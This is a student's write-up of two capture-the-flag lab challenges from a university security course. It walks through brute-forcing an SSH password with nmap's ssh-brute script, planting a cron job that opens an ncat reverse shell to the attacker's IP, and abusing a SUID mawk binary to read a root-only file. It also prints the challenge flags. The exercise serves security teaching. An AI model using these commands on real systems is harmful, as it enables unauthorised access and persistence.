# Linux Privilege Escalation and Persistence

## Challenge Info

| Field | Value |
| --- | --- |
| **Context** | Introduction To Security (BSY) class at CTU in Prague, 2026 |
| **Challenges** | Criminal Mastermind; The Adventure of the Empty House |
| **Category** | Linux - Persistence and Privilege Escalation |
| **Objective** | Gain SSH access, establish persistence, and retrieve flags, including one requiring elevated privileges |
| **Tools Used** | SSH, Nmap, Ncat, cron, find, mawk |


## Criminal Mastermind

### Task Setup

Use your docker. Get in the system of user *moriarty_\<your_docker_number\>@172.20.1.140*. Find a way to get persistence. Find all parts of the flag and submit it in the CTFd.

**HINT**: Moriarty is a big fan of female astronauts and likes to use their names to protect important stuff. Instead of using their names, he strictly uses surnames (Příjmení).

Useful tools: *ssh, nmap, cat*

### Task Solution

First of all I need to find out what my docker number is.

It’s done by following command:

```bash
hostname
```

I found out that my Docker number is 18. Reading the text description again the biggest hint is part “*Get in the system of user moriarty_\<your_docker_number\>@172.20.1.140*”. The `user@host` notation suggests directly to the SSH protocol. But just to be safe I ran an nmap scan to check all the open ports.

I used following command:

```bash
nmap -sC -sV -p- -T5 172.20.1.140
```

The flags used in the above command, and the reasoning behind them are:

- `-sC` - default NSE; common scripts for discovery and basic checks; good first-pass;
- `-sV` - Version detection; Probing open ports to try to identify the service and version. Useful for mapping services to known vulnerabilities and confirming what is actually running.
- `-p-` - Scanning of all TCP ports; To be thorough and not miss anything
- `-T4` - Timing template 5 “insane”. Makes the scan extremely fast by assuming you are on a blazing-fast local network and aggressively rushing packets. It drastically increases the risk of missed ports, dropped packets

The result of the used command is shown in Figure 1.


**Figure 1.** *Running the nmap command*

The result of the nmap command confirms that port 22 is really open. Additionally, ports 9987 and 10000 are open as well. However, due to my desire to finish in the top three, I decided to skip digging deeper and ignore those two lesser-known ports, focusing on SSH instead.

The next move was to try to connect to the server using following command:

```bash
ssh moriarty_18@172.20.1.140
```

The result of the used command is shown in Figure 2.


**Figure 2.** *Result of ssh command*

The SSH connection required a password. Looking back at the description, it states the following verbatim: “*Moriarty is a big fan of female astronauts and likes to use their names to protect important stuff. Instead of using their names, he strictly uses surnames (Příjmení).*” Before digging deeper into the astronaut part, I decided to find out what the shown quote refers to.

I found out that the quote was stated by the fictional detective Sherlock Holmes, created by Sir Arthur Conan Doyle. Because the name “Moriarty” is used as well, I assumed that the whole CTF will be in the Sherlock Holmes theme. My first assumption was to find out if any female astronauts are related to any of the Sherlock Holmes characters.  Nevertheless, a quick Google search set me straight, because there are no records of any astronaut being directly linked to any of the characters appearing in the books.

The next logical step was to search the internet for all the female astronauts. I found a Wikipedia page listing of all of them, which is available at https://en.wikipedia.org/wiki/List_of_women_astronauts. The list contains names of exactly 89 female astronauts. This number was few enough to brute force the password, so I copied the table and asked the LLM to provide me with a list of surnames of all the listed astronauts. To be sure, I asked for both versions: one with capitalised first letter and one with all lowercase letters.

The result of the used prompt and result is shown in Figure 3.


**Figure 3.** *Result of LLM prompt*

The result was saved in a file astronauts.txt, and the next step was to begin a brute force attack.

I had already used the command I needed in Assignment 3, where the goal was exactly the same: Connecting to the server via SSH using brute force to find the password.

The following nmap command was used for the brute force attack.

```bash
nmap -sS -sV -p 22 172.20.1.140 -v -n --script ssh-brute --script-args userdb=user.txt,passdb=astronauts.txt,brute.firstonly=true --open -T4
```

The flags used in the above command, and the reasoning behind them are:

- `-sS` - SYN scan. nmap sends a TCP SYN packet and watches the reply without completing the full three-way handshake.
- `-sV` - Version detection; Probing open ports to try to identify the service and version. Useful for mapping services to known vulnerabilities and confirming what is actually running.
- `-p 22` - Port specification. Restricts the scan to port 22 only.
- `172.20.1.140` - The target IP address.
- `-v` - Increases output detail, so we can see progress in real time.
- `-n` - No DNS resolution.
- `--script ssh-brute` - Runs the NSE script named ssh-brute. This is the script that performs the actual brute-force: it repeatedly attempts SSH logins using the provided usernames and passwords.
- `--script-args` - Passes arguments to the NSE script.
- `userdb=user.txt` - The username database. In this particular case it contains only one user moriarty_18.
- `passdb=astronauts.txt` - The password database.
- `brute.firstonly=true` - Stop on first success
- `--open` - Show only open ports.
- `-T4` - Timing template 4 “aggressive”. Makes the scan faster; It can cause mised probes or dropped packages, but is sufficient for the initial scan. In this scenario, we are a bit noisy. In a real pentest, less aggressive probing is advised, especially if stealth is important.

The brute force finished successfully and valid credentials were found. The result is shown in Figure 4.


**Figure 4.** *Result of brute force*

After logging in with the valid credentials, the first step was to list all directories, including the hidden ones. A file with the name final_problem.txt stood out. After viewing it I found the first part of the flag. Concrete steps are shown in Figure 5.


**Figure 5.** *First part of the flag*

The prefix 2/4: shows that there are 3 more parts of the flag which I need to find. My first assumption was to find the flag by the find command. I used the following command:

```bash
grep -r "BSY{" 2>/dev/null
```

The command searches all directories recursively for any string beginning with “BSY{”. Unfortunately, nothing was found and I was in a blind spot.

As Lecture 6 was about gaining permanent access to the target machine rather than just accessing it once, the next step was to create a reverse shell on this machine. Following the Lecture 6 document it provides a step by step how to achieve it.

Firstly, I needed to open the crontab file using the following command:

```bash
crontab -e
```

Secondly, the following command was needed to be entered:

```bash
* * * * * ncat <MY-IP> 9000 -c /bin/bash >/dev/null 2>&1 &
```

Lastly, I needed to enter this command on my machine:

```bash
ncat -l 9000 -k -vv
```

This set the crontab to listen to my machine every minute. This was done in case of rebooting in order to maintain the connection to our machine. Next, I listen on my own machine if the target machine connects. Using the -c /bin/bash command, I will be able to access the target machine's bash.

After a minute the target machine successfully connected to our machine, which was exactly what we wanted.

The result of the successful reverse shell is shown in Figure 6:


**Figure 6.** *Successful reverse shell*

After a while, something very interesting happened. The connection to the target machine was closed. When I tried to reconnect using the password I had found, I could not log in.

My initial assumption was that another student doing the CTF had connected to my machine and changed the password. Fortunately, however, I had established the reverse in the previous step, so there was nothing to worry about. But before using the reverse shell, I tried the first thing which came to mind and I used the brute force script again. The result was more interesting than I could imagine.


**Figure 7.** *Connection closed by remote host*


**Figure 8.** *Different credential found*

As shown in Figure 8 completely new valid credentials were found. I then viewed the  final_problem.txt file, which revealed the next part of the flag.


**Figure 9.** *Next part of the flag*

Then it clicked, the target machine closes the connection at regular intervals, revealing only a part of the flag each time. I have to read the flag at each of the four intervals.

After some time I gathered all four parts of the flag:

```text
BSY{c7cQuCKXhIQ7frHO04fXPBeRPiAatWXIMV6ReU2M3R86iiWC4wMjg91hMqK2cyot}
```

However, when I entered the flag into CTFd the result I got was shocking. It said that the flag was correct, but for a different user. After running the hostname command again, I discovered that I had mistakenly selected container number 18 instead of my actual number, 48.


**Figure 10.** *Result of hostname command*

Therefore, the entire process had to be repeated. Fortunately, I was able to work on the second task simultaneously. The final flag was:

```text
BSY{yXKA5UjPB7fuWnnkoWmDi4kXEiZifVeXUFVw0b31iMCg9CLMfqQLJyOuLXoHsnZ4}
```

## The Adventure of the Empty House

### Task Setup

Use your docker. Get SSH access to moriarty_\<docker_number\>@172.20.1.140 (same as in part 1)

Moriarty has hidden another flag in the system. It requires elevated privileges to read but he left some binary behind to help you. Open the flag file and submit the flag in CTFd.

Useful tools: *ssh, nmap, cat*

### Task Solution

My first assumption was to find in the /tmp folder. I based this on Assignment 2, Glitch In The Matrix, where the flag was located in the mentioned folder. This folder contained 2 very suspicious files named parts_307749 and parts_310912.


**Figure 11.** *Content of file /tmp/parts_307749*

After seeing the contents, an inexperienced pentester would take a bait and celebrate. Nevertheless, the fact that a user named moriarty_36 had created this file was really suspicious, given that lecturers have lower IDs. Given that the previous find command had not found the content of this file either, I supposed these were fake flags planted by another CTF student.

The next interesting files were linpeas_host_checker_X.json. They were even created by a user with a lower ID so it looked really promising.


**Figure 12.** *Content of file /tmp/linpeas_host_checker_143736.json*

As linpeas was a topic covered in today's lecture, I decided to use the instructions in the Lecture 6 document. I therefore attempted to install the necessary packages.


**Figure 13.** *Permission denied for downloading packages*

The permission denied error was the big clue. I believed that the goal was to get the root access to download packages. Therefore I tried to find all the files with SUID Binaries. SUID (Set owner User ID) is a special Linux file permission that allows a standard user to execute a program with the privileges of the file's owner rather than their own.

I used the following command from the Lecture 6:

```bash
find / -perm -u=s -type f -exec ls -la {} 2>/dev/null \;
```

The flags used in the above command, and the reasoning behind them are:

- `/` -> search everywhere (start from the root folder)
- `-perm -u=s` -> Match files whose owner (user) permission has the setuid bit set.
- `-type f` -> search for files (skip directories and special files)
- `-exec ls -la {}` -> execute “ls -la” with filename(s) found
- `2>/dev/null` -> discard stderr

The following Figure 14 shows the results:


**Figure 14.** *Found SUID Binaries on target machine*

I assumed the SUID binary relevant to this CTF would be one that differs from the standard binaries present on every machine. To find it, I ran the same command on my own Docker container and compared the two results.


**Figure 15.** *Found SUID Binaries on my Docker container*

Comparing the two lists, the binaries which are presented on the target machine but not on my Docker container were exim4 and mawk. I had no way of knowing if this was the correct conclusion, but given the limited time and the goal of finishing in the top three, I had to rely on it.

The next logical step was to identify any vulnerabilities on the website https://gtfobins.org/, mentioned in the Lecture 6. Unfortunately the exim4 binary was not even listed on the website. Therefore the only candidate remaining was the mawk. A quick Google search revealed that it's a lightweight interpreter for the AWK text-processing programming language. The gtfobins stated the following command was used to get into shell:

```bash
mawk 'BEGIN {system("/bin/sh")}'
```

However, as shown in Figure 16, we did not obtain root permissions. I found myself at a dead end for a while.


**Figure 16.** *mawk command for bash*

This led me to two assumptions: first, the goal was not to obtain a root shell, and second, that mawk was still the correct tool for retrieving the flag.

After looking around the filesystem for a while, I found the suspicious file professor_moriarty.txt in the root folder. I logically tried to read it, unfortunately only root had the read permissions.


**Figure 17.** *Permission denied for reading /professor_moriarty.txt*

Nevertheless, the notorious website https://gtfobins.org/gtfobins/mawk/ noted that mawk can also be used to read files, so I tried that.


**Figure 18.** *Reading /professor_moriarty.txt*

It worked and we got our second and final flag:

```text
BSY{Yx7EGnFS84bW0I1TmYc4B5Fls7qgW9aaLKdRLIC6M6r3sKjZCzVSIkhAgb9ZBU2T}
```
